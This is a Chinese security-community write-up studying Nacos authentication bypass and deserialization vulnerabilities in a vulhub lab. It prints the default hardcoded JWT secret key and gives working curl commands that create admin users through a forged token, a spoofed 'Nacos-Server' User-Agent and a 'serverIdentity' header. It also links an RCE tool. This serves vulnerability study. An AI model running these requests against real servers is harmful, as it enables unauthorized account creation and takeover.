 

# nacos 相关漏洞学习 - 先知社区

nacos 相关漏洞学习

- - -

# 目录

JWT\_Secret\_Key 硬编码导致的认证绕过漏洞 (**QVD-2023-6271**)  
不当处理 User-Agent 导致的认证绕过漏洞 (**CVE-2021-29441**)  
identity key value 硬编码权限绕过  
Hessian 反序列化 RCE

## 环境搭建

为了方便直接用 vulhub  
版本：NACOS v1.4.0

```bash
cd vulhub-master\nacos\CVE-2021-29441 
docker compose up -d
docker compose restart nacos
```

某些情况下 nacos 服务会启动失败（无法连接数据库导致），可以重启 nacos 服务或者重启所有服务 访问[http://127.0.0.1:8848/nacos/#/login](http://127.0.0.1:8848/nacos/#/login)

[![](assets/1703209824-2d8a973e407cd505da457773ff138e04.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190451-c330f3ce-9ff0-1.png)

默认账号密码都是 nacos

[![](assets/1703209824-49c255f46ed8640299b5674909229ad1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190521-d53a93a4-9ff0-1.png)

## JWT\_Secret\_Key 硬编码身份验证绕过

尽管设置了 `NACOS_AUTH_ENABLE=true` 和自定义的 `NACOS_AUTH_TOKEN`，自定义的 token 并未生效，用户仍需使用默认的 `secret.key` 来生成可访问 API 接口的 `access_token`。预期是使用自定义的 `NACOS_AUTH_TOKEN` 来生成并使用 `access_token`，但实际上仍需要依赖默认的 `secret.key`

在 application.properties 中可以看到  
secret.key 的值默认为 SecretKey012345678901234567890123456789012345678901234567890123456789  
[![](assets/1703209824-5dbc205406a2b9b90df358f771e2922f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221205010-799c54ce-9fff-1.png)

[![](assets/1703209824-0201955bf5a50d4eb7f31298131a205e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190617-f6eee5cc-9ff0-1.png)

在得到 key 的值后我们可以任意伪造 jwt

[![](assets/1703209824-0c761f4933ce1c3a6db69ff39e710073.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190624-fafdbf94-9ff0-1.png)

`curl -XPOST 'http://ip:8848/nacos/v1/auth/users/?accessToken=eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6IjI2MTYyMzkwMjIifQ.5aXePQdHbh9hKNoj_qqCC4x6PzbXmpy-vYQHhi0PdjVHyDJ40Ge6CVz6AWuV1UHa4H8-A-LXMOqQGSXjrsJ8HQ&username=admin&password=123456'`  
访问接口 创建一个 admin 用户 密码 123456

## 不当处理 User-Agent 导致的认证绕过漏洞 (CVE-2021-29441)

版本：<=Nacos 1.4.1 配置为使用身份验证（-Dnacos.core.auth.enabled=true）  
nacos 在进行认证授权操作时，会判断请求的 user-agent 是否为”Nacos-Server”，如果是的话则不进行任何认证 可调用敏感接口

list 用户接口  
[http://ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=1](http://ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=1)  
获取当前用户列表以及密码  
直接访问会 403

[![](assets/1703209824-6c5b4ac19b3d0a30a823a79e382f4ad8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190634-00b7718c-9ff1-1.png)

将 user-agent 头修改为 Nacos-Server 即可绕过

[![](assets/1703209824-051257fdbc4fc6d9f0c9cea723720638.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190640-04a43d66-9ff1-1.png)

添加用户接口：  
POST  
/nacos/v1/auth/users?username=admin&password=123456  
User-Agent: Nacos-Server  
pageNo=1&pageSize=9

[![](assets/1703209824-0e6699861cdef5d29a1d3fc3dc172d5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190648-08f10340-9ff1-1.png)

创建登录成功

## identity key value 硬编码权限绕过

影响版本：Nacos <= 2.2.0 nacos.core.auth.enabled=true  
当请求头携带"serverIdentity:security"时 可绕过权限认证

[![](assets/1703209824-0ee9151d9e43c5b3368b3cba2de7041d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190654-0cec4c34-9ff1-1.png)

[![](assets/1703209824-46808b6c57397104952697ddaa9568ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190704-12fbd482-9ff1-1.png)

[https://github.com/alibaba/nacos/blob/d40190ee24af94fa87414b88239c47693c524333/core/src/main/java/com/alibaba/nacos/core/auth/AuthFilter.java#L65](https://github.com/alibaba/nacos/blob/d40190ee24af94fa87414b88239c47693c524333/core/src/main/java/com/alibaba/nacos/core/auth/AuthFilter.java#L65)

检查`authConfigs`对象中是否设置了`serverIdentityKey`和`serverIdentityValue` 如果这两个配置项都非空，代码会从 HTTP 请求的头部获取服务器身份信息 再对比 header 中 value 的值和配置文件中 nacos.core.auth.server.identity.value 的值是否相同，如果相同则通过权限校验

利用：  
添加用户接口  
`curl -XPOST 'http://ip:8848/nacos/v1/auth/users?username=admin2&password=123456' -H "serverIdentity: security"`

## Hessian 反序列化 RCE

1.4.0 <= Nacos < 1.4.6 2.0.0 <= Nacos < 2.2.3  
Nacos 默认的 7848 端口是用于 Nacos 集群间 Raft 协议的通信，该端口的服务在处理部分 Jraft 请求时会使用 Hessian 进行反序列化

[![](assets/1703209824-8da499438e2fe0e18b9f519192034662.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190716-19db83ec-9ff1-1.png)

[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)  
直接用大佬的工具一把嗦
